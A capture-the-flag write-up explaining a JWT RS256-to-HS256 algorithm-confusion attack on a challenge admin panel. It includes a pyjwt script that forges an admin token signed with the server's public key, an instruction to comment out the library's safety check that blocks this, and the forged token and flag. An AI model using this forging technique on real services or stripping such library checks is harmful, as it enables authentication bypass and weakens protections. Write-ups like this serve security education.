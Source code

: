 # Unlock Me (905 Points) - 22 Solves (Cat 3)

```
Our agents discovered COViD's admin panel! They also stole the credentials minion:banana, but it seems that the user isn't allowed in. Can you find another way?

Admin Panel (http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)
```



## First Analysis

When we visit the site, we are greeted a login page. However, when we try to key in the credentials `minion:banana` to login, we get a message `Only admins are allowed into HQ!` 

![1.jpg](1.jpg)

Let's take a look at the `Page Source` javascript to see what exactly is going on:

```javascript
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
```

So what the page is basically doing is:

1. Sends a POST request to the `login` with the credentials when the form is submitted
2. Gets the response, and then sends an `accessToken` to another `unlock` endpoint via GET
3. If the response `data.error` is false, then we will be given the flag (`data.flag`)



Looking at the response for step 2 in `Network` of Chrome Developer Tools:

```json
{error: "Only admins are allowed into HQ!"}
```

Hmmm, so it seems like the `accessToken` we are getting is... invalid? Let's take a look at it:

```json
{accessToken: "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDMxMjY5fQ.QU38nbgiNtZdAgdzN5nqGmrqRt4QrkwKOLVXq27bOBX8zg7xFl09oM55qvZjD0sEOaQybiEauujlGH8mFKVvX-jcq1qSd8Z_MZkmi7T8VKFke8SFoxqhuNAo7d34md18p8jzHb4_7rdit5JOPjRvv0h5BikECqWuOWT2M07LDti7FNPitWkLd1Iv1UxnyC5ODfa5tCRyuj6rzH3oz7xdln2VBjftlwy9ZO1h-u8dY9kvMLdB6pEg2abM9-B7iopqHlRB93ceoKEgBFIihmwnGmlCat783_Iy5ibD1K0pmIMdHIf5ymoBfP5K8gGj7_seRI_XicvWT3bDW0XuKTAoO4_KPoKgAp7FJ3EhOoIBqeTkVmPygWssxcmderIuXBsnW3OCBnsDAyGANienUiQGjGGN00yGEcnCMk2v2HYGGfhCcRC5bhrmYCR_CDiVD2TvadQSngd8rrIh6EaDmyZ6w_DF7QG56-wuFIJLP99icUT_WZl82vuiN2cn4jbLCA4OihbZX-Kak0u5WzJ1l9VjuC94vITEJXypesOxgG_1rVUQr-IWRKRxTYw4QuqEJ2dlBW9WLgwHCYCPNe5_RUcrnY18azP1m4kt_g4RTI-NXcMBv_-ahwgepFuPSEC5Wx_EjFjRQj1_keilS6QA0mZt6w-pmVlN3enMJ-SLRek9tmk"}
```

Now, that looks oddly like a **JWT (JSON Web Token)**!

Let's put it into `jwt.io` to look at its contents:

![](2.jpg)

Aha! It seems like in the token, our role is only a `user`, but as we know **only admins can login**.

## 

## Exploiting the JWT

Now we can easily change the role value to "admin", but we will have to **resign the token(AccessCode) with a new signature** if not it will be invalid. *How will we do that?*  

When we relook at the page source, we noticed this HTML comment:

```html
// TODO: Add client-side verification using public.pem
```

Visiting the path `/public.pem` gives us a download of a public key.

Could it be the [RS256 => HS256 algorithm](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6) exploit? The **public key is necessary for this exploit to work**.

This exploit works by converting the algorithm used by the token from `RS256` to `HS256`. 

- RS256 is an **asymmetric algorithm**, which means that it uses a **private key** to **sign the signature**, and a **public key** to **verify the signature (for authentication)**.
- HS256 is a **symmetric algorithm**, which means that it uses the **same secret/key** to **sign and verify the signature**
- **If the backend accepts both HS256 AND RS256** as the algorithms accepted, when we change the algorithm from RS256 to HS256, the **backend treats the <u>known public key as the secret/key for HS256</u>**.
- Hence, we can **modify the token** and **sign it using the public key** for the **backend to accept the token using the HS256 algorithm**.



Therefore, let's first modify the payload to what we want:

```json
{
  "username": "minion",
  "role": "admin",
  "iat": 1607431269
}
```

We can then script a quick python script using the `pyjwt` library to sign our modified token:

```python
import jwt
encoded = jwt.encode({
  "username": "minion",
  "role": "admin",
  "iat": 1607431269
}, open("public.pem").read(), algorithm='HS256')
print(encoded)
```

**<u>Note:</u>** The Pyjwt library will try to stop you in order to protect the user, so you will have to modify the `<PYTHON DIR>\lib\site-packages\jwt\algorithms.py` file by commenting the following lines: (*line 150*)

```python
if any([string_value in key for string_value in invalid_strings]):
  raise InvalidKeyError(
    'The specified key is an asymmetric key or x509 certificate and'
    ' should not be used as an HMAC secret.')
```

and we will get our modified JWT :smile::

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTYwNzQzMTI2OX0.5cEY1Z0ZIu9zUokJEyiyiKPbmTb7jU49vCzzhnI8Pe0
```

Sending this to the `unlock` endpoint (with `GET`) with the header `Authorization: Bearer + <Modified JWT> `:

![](3.jpg)

Bingo! Hence we get the flag:

```
govtech-csg{5!gN_0F_+h3_T!m3S}
```

